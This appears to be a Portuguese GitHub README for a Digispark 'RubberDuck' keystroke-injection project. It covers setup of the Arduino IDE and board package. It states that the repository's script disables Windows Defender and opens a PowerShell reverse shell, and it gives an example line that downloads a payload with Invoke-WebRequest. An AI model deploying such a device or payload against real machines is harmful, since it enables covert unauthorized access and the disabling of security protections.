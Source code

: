 # RubberDuck_Digispark

### Onde comprar: 
#### "Digispark"
    https://pt.aliexpress.com/item/2040316211.html?src=google&aff_fcid=9e866273062d4296861b47a9f964a842-1639422718025-06486-UneMJZVf&aff_fsk=UneMJZVf&aff_platform=aaf&sk=UneMJZVf&aff_trace_key=9e866273062d4296861b47a9f964a842-1639422718025-06486-UneMJZVf&terminal_id=8aa35bb270a04908bf8a5a0994450a81

### Configurar o RubberDuck:
Baixe a IDE do Arduino aqui:
    https://www.arduino.cc/en/software

Baixe e instale os drivers do Digispark aqui:
    https://github.com/digistump/DigistumpArduino/releases/download/1.6.7/Digistump.Drivers.zip

(Role a página para baixo e baixe a Arduino Legacy IDE (1.8.X), que é uma versão com menos bugs.)

Após instalar e abrir o Arduino, aperte "Ctrl + Vírgula", o que abrirá as preferências. Na parte de "URLs Adicionais para Gerenciadores de Placas", cole o seguinte link:
#### URL de configuração do Digispark:
    https://raw.githubusercontent.com/digistump/arduino-boards-index/master/package_digistump_index.json
![alt text](<img/Screenshot_1.png>)

Depois, vá para: Ferramentas > Placa > Gerenciador de Placas. A tela de "Gerenciador de Placas" será exibida. Nessa tela, pesquise por "Digispark" e instale a única opção que aparece:
![alt text](<img/Screenshot_2.png>)

Após a instalação da placa, vá ao menu e selecione-a para começar a codificar:
![alt text](<img/Screenshot_3.png>)

Depois de configurar tudo, sempre inclua esses dois *includes* no início do seu script
(sempre mantenha o arquivo *DigiKeyboardPtBr.h* dentro da pasta do seu script):
![alt text](<img/Screenshot_4.png>)

### Baixe o DigiKeyboardPtBr aqui:
    https://github.com/cosmosredshiftsete/RubberDuck_Digispark/blob/main/DigiKeyboardPtBr.h
(Caso você baixe o repositório, o arquivo já virá junto.)

### Sobre o script:
Esse script do repositório faz o RubberDuck desativar o Windows Defender da máquina e executar uma *reverse shell* via PowerShell. Recomendo seguir a mesma lógica do script do RubberDuck. Caso queira subir um script diferente na máquina, você deve criar um repositório no GitHub com seu script e colocar o link do seu repositório na linha 49, que ele irá executar baixando via PowerShell.
#### Exemplo:
          DigiKeyboardPtBr.println("Invoke-WebRequest -Uri 'link do seu repositório aqui' -OutFile 'nome_arquivo.aqui'");



# Aviso de Responsabilidade

Este projeto foi criado exclusivamente para fins educativos, com o objetivo de simular um RubberDuck. Ele não deve ser utilizado em situações que possam causar danos a terceiros, direta ou indiretamente. O autor do repositório não assume qualquer responsabilidade por problemas ou consequências decorrentes do uso inadequado ou mal-intencionado deste código. Use-o com responsabilidade e em conformidade com as leis e normas aplicáveis.
